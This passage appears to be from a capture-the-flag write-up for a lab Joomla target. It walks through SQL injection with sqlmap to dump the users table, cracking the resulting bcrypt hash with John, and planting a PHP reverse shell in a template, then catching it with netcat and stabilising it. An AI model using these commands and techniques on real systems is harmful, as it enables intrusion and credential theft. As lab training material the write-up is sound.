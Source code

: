 ```shell-session
```

Nice! Now let's try dumping the `username` and password columns:
```shell-session
$ sqlmap -u "http://10.10.57.40/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent --dbs -p list[fullordering] -D joomla -T '#__users' --dump -C password
...
+----------+--------------------------------------------------------------+
| username | password                                                     |
+----------+--------------------------------------------------------------+
| jonah    | $2y$10$0veO/JSFh4389Lluc4Xya.dfy2MF.bZhz0jVMw.V.d3p12kBtZutm |
+----------+--------------------------------------------------------------+
```

Ok, so we have a username and a password hash, let's crack it. (Looks like a blowfish hash):
```shell-session
$ john --wordlist=/usr/share/seclists/Passwords/rockyou.txt hash.txt
spiderman123     (?)
```

> What is Jonah's cracked password?
> 
> Answer: `spiderman123`

Using this gives us access to the control panel for the joomla CMS on our target. Next we'll be using this to gain an initial foothold...

## Gaining Access

From the user dashboard, navigate to templates menu and try uploading a php reverse shell. It did not work for me so as an alternative, I just simply edited the contents of `index.php` on the default template, i.e. copy-paste the reverse shell code into that. 


Starting a listener on our machine and accessing the payload we uploaded (`index.html` in this case), we get a nice reverse shell:

```shell-session
$ nc -nvlp 4444
# Try requesting 10.10.57.40/index.php/
listening on [any] 4444 ...
connect to [10.11.5.201] from (UNKNOWN) [10.10.57.40] 44852
Linux dailybugle 3.10.0-1062.el7.x86_64 #1 SMP Wed Aug 7 18:08:02 UTC 2019 x86_64 x86_64 x86_64 GNU/Linux
 01:01:38 up  2:02,  0 users,  load average: 0.01, 0.03, 0.05
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=48(apache) gid=48(apache) groups=48(apache)
bash: no job control in this shell
bash-4.2$ 
```


Let's stabilize the shell before we proceed:
```shell-session
bash-4.2$ python -c "import pty; pty.spawn('/bin/bash')"
python -c "import pty; pty.spawn('/bin/bash')"
bash-4.2$ ^Z
zsh: suspended  nc -nvlp 4444
$ stty raw -echo && fg
[1]  + continued  nc -nvlp 4444
                               export TERM=xterm-256-color
bash-4.2$ 
```
Nice! Now we can proceed with the usual:
```shell-session
bash-4.2$ whoami
apache
bash-4.2$ uname -a
```
